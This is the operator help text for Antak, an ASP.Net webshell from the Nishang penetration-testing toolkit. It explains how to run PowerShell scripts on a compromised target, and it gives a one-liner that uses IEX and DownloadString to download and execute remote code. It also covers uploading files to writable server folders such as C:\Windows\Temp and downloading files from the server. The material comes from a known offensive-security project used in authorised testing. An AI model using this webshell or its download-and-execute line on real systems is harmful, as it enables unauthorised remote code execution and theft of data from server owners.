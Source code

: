 Antak is a webshell written in ASP.Net which utilizes PowerShell.
Antak is a part of Nishang and updates can be found here:
https://github.com/samratashok/nishang

Use this shell as a normal PowerShell console. Each command is executed in a new process; keep this in mind
while using commands (like changing current directory or running session aware scripts). 

Executing PowerShell scripts on the target:

1. Paste the script in command textbox and click 'Encode and Execute." A reasonably large script could be executed using this.

2. Use PowerShell one-liner (example below) to download & execute in the command box.
IEX ((New-Object Net.WebClient).DownloadString('URL to script here')); [Arguments here]

3. Upload the script to the target and execute it.

4. Make the script a semi-colon separated one-liner.

Files can be uploaded and downloaded using the respective buttons:

Uploading a file:
To upload a file, you must mention the actual path on the server (with write permissions) in the command text box. 
(OS temporary directories like C:\Windows\Temp may be writable.)
Then, use the browse and upload buttons to upload file to that path.

Downloading a file:
To download a file, enter the actual path on the server in the command text box.
Then click on Download button.


A detailed blog post on Antak can be found here:
http://www.labofapenetrationtester.com/2014/06/introducing-antak.html
